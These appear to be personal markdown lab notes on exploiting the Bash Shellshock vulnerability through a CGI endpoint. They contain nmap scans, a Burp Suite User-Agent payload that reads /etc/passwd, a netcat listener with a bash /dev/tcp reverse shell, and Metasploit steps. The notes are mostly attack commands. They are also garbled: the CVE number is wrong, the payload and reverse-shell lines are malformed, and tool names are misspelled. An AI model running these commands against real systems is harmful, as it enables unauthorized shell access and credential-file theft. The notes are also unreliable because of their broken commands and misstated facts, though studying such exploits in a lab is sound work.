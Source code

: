 # Exploiting Bash CVE-2012-6271 Vulnerability (Shellshock)
#### Overview
`Shellshock`\
Is the name given to a family of vulnerabilities in the **Bash shell**
CGI 

Check if Apatch is working
```bash
nmap <IP>
```
Search IP address on browser and notice CGI command is working in the website in developer tool
Check if it's hasvulnerabilities
```bash
nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
`FoxyProxy`
Plugin that allows to automatically switch between proxies -> click BurpSuit
-> All traffic will be redirected to the Burp proxy
`BurpSuit`
Linux tool
Make sure **Intercept is on** in **Proxy** tab
-> Click **Forward**
Inject special characters in HTTP header
Send requests to Repeater
On **Repeater** tab
-Remove user agent information
```bash
# Send this command
User Agent: () {:;}; echo; echo; bin/bash 'c 'cat /etc/passwd'
```

reverseshell
Set up listener port
```bash
# nc -nvlp <'listen port'>
```

```bash
# <'listen port'> -> 'bash -i>&/dev/tcp/<target IP></listening port> 0>&1'
```

Exploit with Metasploit
```bash
service postgresql start && msfonsole
```
```bash
search shellshock
```
-> Use exploit module
```bash
set RHOSTS
set TARGETURI <example: /gettime.cgi>
exploit
```
